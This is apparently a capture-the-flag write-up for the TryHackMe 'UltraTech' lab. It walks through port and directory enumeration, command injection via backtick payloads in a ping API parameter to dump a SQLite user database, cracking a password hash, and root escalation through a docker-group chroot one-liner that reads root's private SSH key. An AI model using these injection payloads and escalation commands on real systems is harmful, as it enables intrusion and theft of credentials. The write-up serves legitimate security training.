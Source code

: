 # [UltraTech](https://tryhackme.com/room/ultratech1)

## The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

# It's enumeration time!

## After enumerating the services and resources available on this machine, what did you discover?

### Which software is using the port 8081?

### Which other non-standard port is used?

### Which software using this port?

### Which GNU/Linux distribution seems to be used?

All the answers for these questions we can get from this nmap command

```Bash
nmap -p- -sV <IP>
```

- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

![SCREEN01](https://github.com/user-attachments/assets/970312c2-822c-4a48-940d-66146079e7b6)

### The software using the port 8081 is a REST api, how many of its routes are used by the web application

Scan the api with gobuster

```Bash
gobuster dir -u http://<IP>:8081 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

![SCREEN02](https://github.com/user-attachments/assets/1850a0e9-addb-46cb-a0eb-60723872629e)

# Let the fun begin

## Now that you know which services are available, it's time to exploit them! Did you find somewhere you could try to login? Great! Quick and dirty login implementations usually goes with poor data management. There must be something you can do to explore this machine more thoroughly.

### There is a database lying around, what is its filename?

1. Enumerate the second port for interesting endpoints

```Bash
gobuster dir -u http://<IP>:31331 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x js,php,txt,html
```

![SCREEN03](https://github.com/user-attachments/assets/1499568a-a676-496d-a735-a897981905bb)

2. In the source of `<IP>:31331/partners.html` we can find link to `http://<IP>:31331/js/api.js` which lead us to the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` in which we can perform injection by adding ;\`ls\` at the end

![SCREEN04](https://github.com/user-attachments/assets/36789a36-42fd-48df-8db6-b9abc07f8169)
![SCREEN05](https://github.com/user-attachments/assets/75b42b7d-52f4-46ec-abfa-530bcd43a1af)

### What is the first user's password hash?

1. Add ;\`cat utech.db.sqlite\`

![SCREEN06](https://github.com/user-attachments/assets/488c0fc2-051b-4961-af1a-b658c4398637)

### What is the password associated with this hash?

1. Put the hash in the [Crack Station](https://crackstation.net/)

![SCREEN07](https://github.com/user-attachments/assets/23e024a4-a890-466c-94f5-54b6aa910b81)

# The root of all evil

## Congrats if you've made it this far, you should be able to comfortably run commands on the server by now! Now's the time for the final step! You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal. Mistakes were made, take advantage of it.

### What are the first 9 characters if the root user's private SSH key?

1. Login with ssh, and check the groups

```Bash
ssh r00t@<IP>
id
```

![SCREEN08](https://github.com/user-attachments/assets/78912948-fed6-40d3-b99f-c89f1c499b6d)

2. Since we are in a docker group, we can exploit it using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), and upgrade bash

```Bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

![SCREEN09](https://github.com/user-attachments/assets/07422e91-1401-41ca-8c55-6ff10e19cda3)

3. The private/public keys are stored in the usual place:

```Bash
find / -type f -name "*.pub"
ls /root/.ssh/
cat /root/.ssh/id_rsa
```

![SCREEN10](https://github.com/user-attachments/assets/f544e4cb-49db-4cb2-870f-23d4c1837ec7)
